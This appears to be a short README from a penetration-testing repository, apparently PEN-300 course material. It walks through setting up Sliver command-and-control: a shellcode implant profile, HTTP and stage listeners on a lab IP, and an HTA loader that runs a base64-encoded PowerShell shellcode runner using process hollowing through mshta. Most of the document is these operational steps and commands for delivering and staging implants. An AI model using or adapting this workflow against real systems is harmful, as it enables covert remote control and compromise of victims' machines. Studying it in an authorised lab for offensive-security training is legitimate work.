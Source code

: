 # Overview

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.200.43:80 --format shellcode local64`

## Setup main listener with google.crt / key generated with metasploit
`sliver > http -L 192.168.200.43 -l 80`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url tcp://192.168.200.43:8064 --profile local64`

# Sliver HTA Payload
the payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

## Modify the runner.xml
Modify the runner.xml and change the ip address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1 

## Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file. 
`PS Z:\SharedVMFolder\ToolLibrary\Sliver-Basic-HTA-Loader> .\HTA-powershellEncoder.ps1`
Copy and paste the output from the encoded.txt file into the runner.hta file. 